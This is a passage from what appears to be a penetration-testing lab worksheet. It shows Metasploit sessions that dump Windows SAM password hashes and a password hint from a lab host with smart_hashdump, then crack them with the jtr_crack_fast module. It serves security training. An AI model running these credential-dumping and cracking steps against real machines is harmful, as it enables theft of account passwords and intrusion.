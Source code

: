       msf post(smart_hashdump) > run

      [*] Running module against WINDOWS
      [*] Hashes will be saved to the database if one is connected.
      [*] Hashes will be saved in loot in JtR password file format to:
      [*] /root/.msf4/loot/20141121182250_default_192.168.1.4_windows.hashes_123878.txt
      [*] Dumping password hashes...
      [*] Running as SYSTEM extracting hashes from registry
      [*]     Obtaining the boot key...
      [*]     Calculating the hboot key using SYSKEY 26a1ab029cc81f35c920f4e2409cc7e5...
      [*]     Obtaining the user list and keys...
      [*]     Decrypting user keys...
      [*]     Dumping password hints...
      [+]     seccon:"seccon!"
      [*]     Dumping password hashes...
      [+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
      [+]     HelpAssistant:1000:4f7f3b0478068dbc155ac748a60cd08d:c99241d31fe8453e3cb865be137309b4:::
      [+]     SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:0b5c1b2296ed366332095252c3f83100:::
      [+]     seccon:1003:e17a6020453a1523aad3b435b51404ee:d3eb09053fbe2ba3f37e6e773f763827:::
      [+]     user:1004:e52cac67419a9a224a3b108f3fa6cb6d:7b592e4f8178b4c75788531b2e747687:::
      [*] Post module execution completed

      msf post(smart_hashdump) > loot

      Loot
      ====

      host         service  type            name                content     info            path
      ----         -------  ----            ----                -------     ----            ----
      192.168.1.4           windows.hashes  WINDOWS_hashes.txt  text/plain  Windows Hashes  /root/.msf4/loot/20141121182250_default_192.168.1.4_windows.hashes_123878.txt
</pre>
{% endcapture %}
{% include cheat.html text=text %}

### Task 4

Crack the NTLM hashes out of SAM with
the `auxiliary/analyze/jtr_crack_fast` utility

{% capture text %}
<pre>
    msf post(smart_hashdump) > use auxiliary/analyze/jtr_crack_fast
    msf auxiliary(jtr_crack_fast) > run

    [*] Seeded the password database with 19 words...
    fopen: /opt/metasploit/apps/pro/msf3/data/john/run.linux.x86.sse2/password.lst: No such file or directory
    [*] Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
    [*] Output: Remaining 2 password hashes with no different salts
    fopen: /opt/metasploit/apps/pro/msf3/data/john/run.linux.x86.sse2/password.lst: No such file or directory
    [*] Output: Loaded 5 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
    [*] Output: Remaining 2 password hashes with no different salts
    guesses: 0  time: 0:00:00:04 DONE (Fri Nov 21 18:25:00 2014)  c/s: 5462K  trying: ZEB1900 - ZZZ1900
    [*] Output: Loaded 6 password hashes with no different salts (LM DES [128/128 BS SSE2])
    [*] Output: Remaining 2 password hashes with no different salts
    Warning: mixed-case charset, but the current hash type is case-insensitive;
    some candidate passwords may be unnecessarily tried more than once.
    guesses: 0  time: 0:00:00:06 DONE (Fri Nov 21 18:25:06 2014)  c/s: 25643K  trying: ||V} - |||}
    [*] Output: Loaded 6 password hashes with no different salts (LM DES [128/128 BS SSE2])
    [*] Output: Remaining 2 password hashes with no different salts
    guesses: 0  time: 0:00:00:00 DONE (Fri Nov 21 18:25:07 2014)  c/s: 1307K  trying: 89093 - 89092
    [*] Output: Loaded 6 password hashes with no different salts (LM DES [128/128 BS SSE2])
    [*] Output: Remaining 2 password hashes with no different salts
    [*] cred_18:PASSWORD:e52cac67419a9a224a3b108f3fa6cb6d:7b592e4f8178b4c75788531b2e747687:::